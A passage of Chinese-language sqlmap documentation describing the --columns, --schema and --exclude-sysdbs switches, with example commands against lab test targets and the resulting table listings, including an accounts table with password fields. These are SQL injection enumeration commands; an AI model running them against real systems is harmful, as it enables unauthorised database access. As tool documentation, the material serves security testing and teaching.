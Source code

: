针对SQLite目标的例子:

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/sqlite/get_int.php?id=1" -\
-columns -D testdb -T users -C name
[...]
Database: SQLite_masterdb
Table: users
[3 columns]
+---------+---------+
| Column  | Type    |
+---------+---------+
| id      | INTEGER |
| name    | TEXT    |
| surname | TEXT    |
+---------+---------+
```

请注意，在PostgreSQL上必须提供`public`或系统数据库的名称。这是因为不可能枚举其他数据库表，只有在web应用程序的用户连接到的模式下的表，它总是被`public`所定义。

### 枚举数据库管理系统模式

开关: `--schema` 和 `--exclude-sysdbs`

用户可以通过使用这个开关来检索DBMS模式。模式清单将包含所有数据库、表和列，以及它们各自的类型。与`--exclude-sysdbs`相结合，将检索并显示包含非系统数据库的模式的一部分。

针对MySQL目标的例子:

```
$ python sqlmap.py -u "http://192.168.48.130/sqlmap/mysql/get_int.php?id=1" --s\
chema--batch --exclude-sysdbs

[...]
Database: owasp10
Table: accounts
[4 columns]
+-------------+---------+
| Column      | Type    |
+-------------+---------+
| cid         | int(11) |
| mysignature | text    |
| password    | text    |
| username    | text    |
+-------------+---------+

Database: owasp10
Table: blogs_table
[4 columns]
+--------------+----------+
| Column       | Type     |
+--------------+----------+
| date         | datetime |
| blogger_name | text     |
| cid          | int(11)  |
| comment      | text     |
+--------------+----------+

Database: owasp10
Table: hitlog
[6 columns]
+----------+----------+
| Column   | Type     |
+----------+----------+
| date     | datetime |
| browser  | text     |
| cid      | int(11)  |
| hostname | text     |
```
